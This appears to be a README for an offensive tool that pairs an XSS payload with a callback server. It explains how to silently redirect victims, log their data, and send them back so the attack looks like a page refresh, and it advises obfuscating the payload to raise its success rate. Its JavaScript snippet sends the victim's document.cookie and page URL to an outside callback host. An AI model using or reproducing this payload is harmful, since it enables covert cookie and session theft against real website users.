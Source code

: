 ## Description

This repo contains an example of a CORS callback server and an XSS payload that, once executed, will change the current window location of the victim to your callback address, which returns a **301 Moved Permanently** response sending the victim back to its referer, although this time with a token in the URL anchor, preventing the XSS payload from reactivating.

This enables you to sniff sensitive data via URL parameters when the victim gets sent to your callback address.

If for whatever reason the victim did not reveal its origin (referer), the victim will be redirected to your panic address of choice, in an attempt to keep the attack hidden.

When the attack is successful, the victim experienced what seemed like a page refresh at most.

## Usage

First of all make sure that your callback server is listening.

Then throw the following code in your XSS payload. Be sure to change the address to that of your callback server, and change the token at the very least. The more you obfuscate this code, the higher your success rate will be. 

Refine your payload as required, or it may get triggered unexpectedly.

```javascript
const token = "w3lRZ87e";
if (location.hash != token) self.location = "https://mycallbackserver.net/callback.php" + 
                	"?referer=" + encodeURIComponent( btoa(self.location.href) ) + 
                	"&data=" + encodeURIComponent( btoa(document.cookie) ) + 
                	"&token=" + encodeURIComponent( btoa(token) );
```

<sup>If you choose not to include a referer in the URL parameters, the callback server defaults to the **`Referer`** header of the request.<br>If neither a referer parameter or Referer header is present, the panic address is used.</sup>
